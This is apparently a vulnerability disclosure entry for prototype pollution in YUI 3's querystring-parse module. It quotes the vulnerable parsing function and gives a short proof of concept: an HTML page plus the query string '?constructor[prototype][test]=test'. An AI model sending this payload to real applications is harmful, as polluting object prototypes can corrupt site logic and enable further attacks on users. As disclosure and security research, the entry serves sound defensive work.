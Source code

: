 ## YUI 3: Yahoo User Interface Library querystring-parse

URL: https://clarle.github.io/yui3/

### Vulnerable code fragment

https://github.com/yui/yui3/blob/25264e3629b1c07fb779d203c4a25c0879ec862c/src/querystring/js/querystring-parse.js#L47-L91

```js
pieceParser = function (eq) {
    return function parsePiece (key, val) {

        var sliced, numVal, head, tail, ret;

        if (arguments.length !== 2) {
            // key=val, called from the map/reduce
            key = key.split(eq);
            return parsePiece(
                QueryString.unescape(key.shift()),
                QueryString.unescape(key.join(eq))
            );
        }
        key = key.replace(/^\s+|\s+$/g, '');
        if (Y.Lang.isString(val)) {
            val = val.replace(/^\s+|\s+$/g, '');
            // convert numerals to numbers
            if (!isNaN(val)) {
                numVal = +val;
                if (val === numVal.toString(10)) {
                    val = numVal;
                }
            }
        }
        sliced = /(.*)\[([^\]]*)\]$/.exec(key);
        if (!sliced) {
            ret = {};
            if (key) {
                ret[key] = val;
            }
            return ret;
        }
        // ["foo[][bar][][baz]", "foo[][bar][]", "baz"]
        tail = sliced[2];
        head = sliced[1];

        // array: key[]=val
        if (!tail) {
            return parsePiece(head, [val]);
        }

        // obj: key[subkey]=val
        ret = {};
        ret[tail] = val;
        return parsePiece(head, ret);
    };
},         
```

### PoC
```html
<script src="https://cdnjs.cloudflare.com/ajax/libs/yui/3.18.1/yui/yui-min.js"></script>
<script>
YUI().use('querystring', function (Y) {
    Y.QueryString.parse(location.search.slice(1));
});
</script>
```
```
?constructor[prototype][test]=test
```